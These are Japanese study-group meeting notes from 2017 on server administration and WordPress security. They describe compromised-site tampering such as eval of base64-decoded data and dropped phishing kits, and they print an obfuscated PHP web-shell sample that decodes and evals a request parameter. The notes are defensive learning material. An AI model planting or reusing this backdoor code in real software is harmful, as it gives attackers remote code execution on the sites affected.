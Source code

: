 ```yaml
---
title: 加古川IT系インフラ勉強会 2017.09
date: 2017-09-09
categories:
  - 開催履歴
tags:
  - 加古川IT系インフラ勉強会
---
```


加古川IT系インフラ勉強会 2017.09
===

* 開催日：2017/09/09
* 司会：wate
* 参加者数：参加者: 6名 / 学生: 0名 / Hangout: 1名
* 備考：気付いたことなど、自由に記入をお願いします！
* Connpass: https://histudy.connpass.com/event/66082/
* ハッシュタグ：#kakogawa_infra

---

## 脆弱性

* MySQLの不満あれこれ
    * いつの間にかテーブルサイズが肥大化する
    * プラグインによっては、wp_options テーブルが肥大化。。。
    * 「汎用化」に振りすぎ？
* Wordpressのセキュリティ対策
  * REST APIで脆弱性が増えたかも
  * パーミッションに注意
  * セーフモードは既に意味なさげ
  * プラグインを制限する
  * 接続元を国内限定にする(かなり効いた)
  * ファイルのチェックサムを取る
  * gitで管理する
  * WPScanかける
  * ...のような面倒な作業はJenkinsに任せたい(LDAPサーバどうしよう)
* Jenkinsによる自動化とか勉強会やってみたい
    * Jenkins2.0でPipelineが導入された。便利そう
* うちのインフラ部門がAmazon Linux大好きなので、最近そちらやってます
    * Debian慣れしてるので、Amazon Linux 気持ち悪い
    * RedHatに似てるが、バージョンをがんがんあげるので互換性に不安
* CentOS めんどくさい
    * 7に移行中です
    * 7になれてない人大丈夫？
* やはりサーバは2-3年で更新しないと
* クラウドで管理はだいぶ楽になった
    * Shell Scrptでちまちま管理してましたがAnsibleでOK
    * OpenStackまわりとかやってみたいね(ConoHaとか)
* Vineなつかし。MecabはまだUTF-8がデフォルトじゃないのかしら
* 幸いWordPressの闇はまだ見たことないです
* Webの勉強会開催は難しい?
    * 勉強会のフォームを用意して、「あとはよろしくね」というメソッドが有効?
    * WordBench姫路開催の予感
    * WordBench京都、大阪、神戸の所感もげもげ
* サーバ管理ネタをWordBenchあたりで話してみる?
    * 管理者の視点で言えることとか
* サーバアプリケーションの脆弱性対応は、業者ではやりにくい(検閲とかに該当)
* WordPress改竄スクリプトの解析とかやってるところもあります
* 改竄コードの例
    * $dataという変数に、あらかじめbase64でエンコードしておいた生データをデコード、代入している
    * $dataをそのままeval、とかやってそう
    * 怪し気なzipファイルを展開している
    * zipファイル展開確認。フィッシングサイトを開設するとおぼしきphpのコード一式が入っていた
    * おそらく同時に撒いたであろうspamにここのURLが入ってるはず
    * ACLファイルを入れ替えられてるも
* Fail2banをSMTPなどにも入れている
* sshアクセスはWebからのアクセス元のみに限定する
* FollowSymlinkの禁止を導入したが、一部ツールはこれに依存していたりする
* JavaScriptの脆弱性
    * 難読コード(昔の一例) 
        ```php
        <?php
            $sF="PCT4BA6ODSE_";
            $s21=strtolower($sF[4].$sF[5].$sF[9].$sF[10].$sF[6].$sF[3].$sF[11].$sF[8].$sF[10].$sF[1].$sF[7].$sF[8].$sF[10]);
            $s20=strtoupper($sF[11].$sF[0].$sF[7].$sF[9].$sF[0]);if (isset(${$s20}['nd335c3'])) {
                eval($s21(${$s20}['nd335c3']));
            }
        ?>
        ```
    * 
* 
* 
* 
* 
* 
* 
* 
* 
* 
* 
